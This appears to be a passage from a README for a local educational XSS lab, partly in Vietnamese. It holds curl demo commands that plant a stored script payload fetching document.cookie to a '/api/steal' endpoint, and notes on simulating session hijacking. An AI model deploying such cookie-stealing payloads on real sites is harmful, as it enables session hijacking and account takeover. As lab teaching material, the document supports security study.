 ## 🎯 Demo Commands

### Test XSS Auto-Test

```bash
# 1. Post XSS comment
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'

# 2. Đợi 6 giây và check server console
sleep 6

# 3. Bây giờ sẽ thấy "STOLEN COOKIE RECEIVED"!
```

### Test Manual Steal

```bash
# Test trực tiếp API steal
curl "http://localhost:3000/api/steal?cookie=auth=admin:admin123"

# Server console sẽ hiển thị:
# 🚨 STOLEN COOKIE RECEIVED: auth=admin:admin123
```

## 💡 Key Insights

### 1. HTTP Request ≠ JavaScript Execution

-   HTTP request chỉ lấy HTML content
-   JavaScript chỉ execute trong browser context
-   Auto-test cần **simulate** JavaScript behavior

### 2. Simulation Strategy

-   Detect XSS payload trong HTML response
-   Manually call `/api/steal` với admin cookie
-   Log stolen cookie như real XSS attack

### 3. Educational Value

-   Demo complete XSS → Session Hijacking flow
-   Show both detection và execution
-   Real-world attack simulation

## 🔧 Technical Details

### XSS Detection
